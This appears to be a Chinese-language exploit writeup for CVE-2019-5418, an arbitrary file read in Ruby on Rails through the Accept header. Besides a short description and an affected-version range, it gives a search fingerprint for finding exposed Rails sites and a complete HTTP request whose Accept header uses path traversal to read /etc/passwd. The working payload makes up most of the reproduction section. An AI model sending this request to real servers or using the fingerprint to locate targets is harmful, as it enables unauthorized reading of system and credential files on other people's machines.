

# Rails Accept 任意文件读取漏洞 CVE-2019-5418

## 漏洞描述

Ruby on Rails 是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。这个漏洞主要是由于 Ruby on Rails 使用了指定参数的 render file 来渲染应用之外的视图，我们可以通过修改访问某控制器的请求包，通过“…/…/…/…/”来达到路径穿越的目的，然后再通过“{{”来进行模板查询路径的闭合，使得所要访问的文件被当做外部模板来解析。

## 漏洞影响

```
Rail <= 5.2.2.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面


验证请求包

```
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```


